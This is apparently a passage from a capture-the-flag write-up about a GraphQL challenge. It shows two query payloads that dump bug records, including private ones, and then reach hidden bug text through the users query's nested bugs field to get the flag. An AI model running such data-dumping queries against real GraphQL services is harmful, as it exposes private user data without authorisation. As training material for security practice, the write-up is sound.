 #### **Getting Bug Reports**
There also another interesting column that called Bugs.

![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfIJQAMLPzYGB5yJrHh%2F-MfJ-rbd83nspihQprHo%2F6.png?alt=media&token=ac321c54-8364-4864-ae69-7effb7719a74)
We can see the fields that we can retrieve in the bug column. Also if we need to access the bug column as you can see in the image you have the ***allBugs and Bug*** query to access the Bugs Columns. Let's craft our payload as we did before.
```graphql
query {
	allBugs {
  edges {
    node {
      id
      id
      private
      reporter {
        id
      }
      reporterId
      
    }
  }
  }
}
```
![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfIJQAMLPzYGB5yJrHh%2F-MfJ0WB2IC0GWl1ME730%2F7.png?alt=media&token=130fe6e4-a9bd-4e19-a364-0ade74fe5dbf)
Great! Now, it seems that we have dumped all content expect for the text filed in ***Bugs_** *column.

#### **Flag**
But How we can access the text filed?

![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfIJQAMLPzYGB5yJrHh%2F-MfJ1CGgIlpeWW3DgCMs%2F8.png?alt=media&token=eeac4a79-9993-4f8a-908c-7a6ba9a67936)
As you can see that the text filed is accessible through Users columns which is accessible by the user query. So our payload should look something like that:

```graphql
query {
  user {
    edges {
      node {
        id
        username
        bugs{
          edges {
            node {
              text
            }
          }
        }
      }
    }
  }
}

```
![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfIJQAMLPzYGB5yJrHh%2F-MfJ2UNpaV-zzy161Kgc%2F2021-07-23%2017_46_25-Hamza%20Namira%20-%20Ala%20Bab%20Allah.png?alt=media&token=e3781a0b-5bc7-4000-94af-40f2a714e4c6)
